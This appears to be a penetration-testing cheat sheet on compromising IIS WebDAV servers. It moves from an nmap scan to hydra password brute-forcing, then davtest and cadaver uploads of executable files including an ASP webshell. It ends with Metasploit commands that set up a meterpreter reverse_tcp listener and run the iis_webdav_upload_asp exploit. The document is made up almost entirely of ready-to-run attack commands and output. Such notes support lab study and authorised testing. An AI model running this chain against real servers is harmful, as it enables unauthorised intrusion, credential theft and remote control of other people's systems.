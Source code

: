 
What WebDAV looks like from scan
```bash
nmap -p80 --script http-enum -sV #IP
```

```bash
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 10.0
| http-enum: 
|_  /webdav/: Potentially interesting folder (401 Unauthorized)
|_http-server-header: Microsoft-IIS/10.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

# 401 Unauthorized - authentication is enabled
```

Can brute force with hydra
```bash
hydra -L /usr/share/wordlists/metasploit/common_users.txt -P /usr/share/wordlists/metasploit/common_passwords.txt $IP http-get /webdav/
```

## davtest

>Tool that sends exploit files to the WebDAV server and automatically creates the directory then uploads different format types of files and tries to execute uploaded files and gives an output of successfully executed files.

```bash
davtest -url http://$IP/webdav
```

If credentials are needed:
```bash
davtest -auth bob:password_123321 -url http://$IP/webdav
```

Will provide a summary of files that were uploaded:
```bash
/usr/bin/davtest Summary:
Created: http://$IP/webdav/DavTestDir_a7XjUR
PUT File: http://$IP/webdav/DavTestDir_a7XjUR/davtest_a7XjUR.txt
PUT File: http://$IP/webdav/DavTestDir_a7XjUR/davtest_a7XjUR.cfm
PUT File: http://$IP/webdav/DavTestDir_a7XjUR/davtest_a7XjUR.cgi
PUT File: http://$IP/webdav/DavTestDir_a7XjUR/davtest_a7XjUR.aspx
PUT File: http://$IP/webdav/DavTestDir_a7XjUR/davtest_a7XjUR.asp
PUT File: http://$IP/webdav/DavTestDir_a7XjUR/davtest_a7XjUR.html
PUT File: http://$IP/webdav/DavTestDir_a7XjUR/davtest_a7XjUR.php
PUT File: http://$IP/webdav/DavTestDir_a7XjUR/davtest_a7XjUR.jsp
PUT File: http://$IP/webdav/DavTestDir_a7XjUR/davtest_a7XjUR.jhtml
PUT File: http://$IP/webdav/DavTestDir_a7XjUR/davtest_a7XjUR.shtml
PUT File: http://$IP/webdav/DavTestDir_a7XjUR/davtest_a7XjUR.pl
Executes: http://$IP/webdav/DavTestDir_a7XjUR/davtest_a7XjUR.txt
Executes: http://$IP/webdav/DavTestDir_a7XjUR/davtest_a7XjUR.asp
Executes: http://$IP/webdav/DavTestDir_a7XjUR/davtest_a7XjUR.html
```

Then will provide screenshot of what files were successfully uploaded as well as which files were successfully executed.

## cadaver
```bash
cadaver http://$IP/webdav
```


Ex. script to use
```bash
/usr/share/webshells/asp/webshell.asp
```

Upload files via `put` and once uploaded they can be executed from browser ex. `http://$IP/webdav/webshell.asp`

## Metasploit

Can do the same with msvenom payload then use metasploit via:
```bash
use exploit/multi/handler 
set payload windows/meterpreter/reverse_tcp
set LHOST $IP
set LPORT 4444
run
```

Another option to use metasploit for the entire process. 
```bash
use exploit/windows/iis/iis_webdav_upload_asp
set RHOSTS $IP
set HttpUsername $USER
set HttpPassword $PASSWORD
set PATH /webdav/metasploit.asp
exploit
```

